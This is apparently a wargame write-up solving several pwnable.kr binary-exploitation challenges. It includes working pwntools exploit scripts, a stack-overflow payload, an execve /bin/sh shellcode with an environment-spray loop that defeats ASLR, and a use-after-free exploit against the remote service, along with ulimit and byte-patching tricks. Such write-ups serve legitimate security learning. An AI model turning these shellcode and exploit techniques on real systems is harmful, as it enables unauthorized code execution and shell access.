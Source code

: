 #### Simple login

```python
from pwn import *
import base64
payload = pack(0xdeadbeef)+pack(0x804925f)+pack(0x811eb40)
print  base64.encodestring(payload)
```

There was a memcpy in auth()  which lead to overflow of ebp , then eip = *(ebp+4) now we place &correct() in our payload which is 
stored in global variable 

##### flag :control EBP, control ESP, control EIP, control the world~

#### OTP 

this had no vuln i know , but apparently u have to use ulimit -f 0 so the passcode file is not created and we can enter '' password
but i still wonder why we have to use subprocces.Popen(['otp',''],stderr=stdout)

#### Tiny Easy

this prog just executed our argv[0] and it had aslr ON , using execv we can give argv[0] whatever we want , and to bypass aslr
we <b> spray the stack with environment variable </b>

```python
import os
import struct

shellcode="\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"
nopsled = "\x90"*4096;  
payload = nopsled+shellcode

myenv = {}  
for i in range(0,100):  
	myenv["spray"+str(i)] = payload

#envaddr = pack(0xffff3ead)
envaddr = struct.pack("<I",0xff8402c7)

while True:
	print "trying ...."
	p = subprocess.Popen([envaddr], executable="./tiny_easy", env=myenv)
	p.wait()
````
##### flag: What a tiny task :) good job!

#### Fsb 
it was a format string bug , and program asks u to guess a key(random val) ,there are 3 ways to solve problem : <br> 
    1) Leak key ( i did ,but problem is stroull is treadted as int if <stdlib.h> is not included ) <br>
    2) Overwrite key ( it takes a lot of time to print , u had to redirect to > /dev/null ) <br>
    3) Change the control flow ( which i have to try ) <br>
    
##### flag :Have you ever saw an example of utilizing [n] format character?? :(    
    
#### Dragon 
This problem was good , it took me 1 day to complete , u have to fight with dragon and if u win u get UAF to exploit , 
the dragon's power is 2 bytes stored in heap all u have to do is increment it;s power to 128 which is will overflow to 0 
and then exploit the bug to get the flag 
```python
from pwn import * 

#p = process('./dragon')

p = remote('pwnable.kr' ,9004)


p.recvlines(4)
p.sendline('2')
print "[+] playing with baby dragon"
p.recvlines(7)
p.sendline('2')
p.recvlines(9)
p.sendline('1')
print "[+] playing with mama dragon"
p.recvlines(9)
for i in range(3):
        print "[+] Activating Sheild"
	p.sendline('3')
	p.recvlines(10)
	print "[+] Using Sheild"
	p.sendline('3')
	p.recvlines(10)
	print "[+] Using clarity"
	p.sendline('2')
	p.recvlines(11)


print "[+] Activating Sheild"
p.sendline('3')
p.recvlines(10)
print "[+] Using Sheild"
p.sendline('3')
p.recvlines(10)
print "[+] Using clarity"
p.sendline('2')
p.recvuntil(':')

print "[+] Dragon killed !! , we Won !!"
p.sendline(pack(0x08048dbf))
p.interactive()

```
###### flag : MaMa, Gandhi was right! :)

#### fix 

The problem simply executes a shellcode , but asks us fix one byte the problem is stack space is so less so at some stage 
it eats our shellcode too , so to solve this there are 2 ways  <br> <br>
		1) issue ulimit -s unlimited ;patch 15'th byte to pop esp , then esp value will be "/bin/sh" but still will be
		   valid due to ulimit <br> <br>
		2) pathch 15'th byte to leave ; but now ecx+4 (argv[1]) will be some bytes so sh interprets as file to execute so create a symbolic link of that bytes to a.sh file 
		
##### flag : Sorry for blaming shell-strom.org :) it was my ignorance!
		







